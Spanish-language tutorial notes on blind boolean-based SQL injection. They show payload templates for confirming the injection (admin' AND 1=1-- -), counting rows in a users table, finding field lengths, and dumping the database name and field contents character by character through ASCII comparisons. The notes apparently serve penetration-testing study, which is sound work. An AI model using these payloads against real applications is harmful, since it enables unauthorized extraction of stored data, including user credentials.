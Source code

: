 ### Descubriendo la vulnerabilidad

En este caso buscamos un campo donde podamos validar una respuesta. Luego buscamos una respuesta correcta(true), con esta respuesta correcta, buscamos agregar más lógica a la query con el fin de analizar si un segundo caso se cumple:

    admin' AND 1=1-- -
    admin' AND 1=0-- -

##### Explicación de la lógica:

1. Una vez que validamos que tenemos un dato que es verdadero, agregamos a la query un boolean que sea verdadero. Si esto no resulta falso podemos inferir que el segundo caso (el boolean) está siendo analizado puesto que si tomara todo lo ingresado como un dato completo ya no tendríamos "admin" como dato sino "admin' and...."
2. Inyectamos ahora un caso booleano que de falso. Si la respuesta es Falsa, entonces podemos asegurar que el segundo caso es validado.
3. Utilizamos el segundo caso para hacer querys que puedan darnos una pista de los datos que se están manejando.

### validar cantidad de campos en una tabla

        <dato>' AND (select count(*) from users) > 0-- -

##### otra opción

        <dato>' AND ORDER BY <numero>

### Conseguir el length de un dato de la tabla

        <dato>' AND LEN(<campo a consultar del usuario>)=<length>-- -

### Dumpear el nombre de una DB:

        <dato>’ AND ASCII(SUBSTR(DATABASE(),<index>,X))=<Valor ASCII>

        
### Dumpear los caracteres dentro de un campo

Podemos trabajarlo con valores ASCII(en números del 32 al 127) y luego decodearlos para tener el caracter legible

        <dato>'+AND+ASCII(SUBSTRING(<campo>,<index_del_char>,1))=<valor ASCII>--+-

Una buena página para hacer esta decodificación una vez logrados los resultados(recordar copiar separados los ASCII, luego la página los junta:

https://www.duplichecker.com/ascii-to-text.php

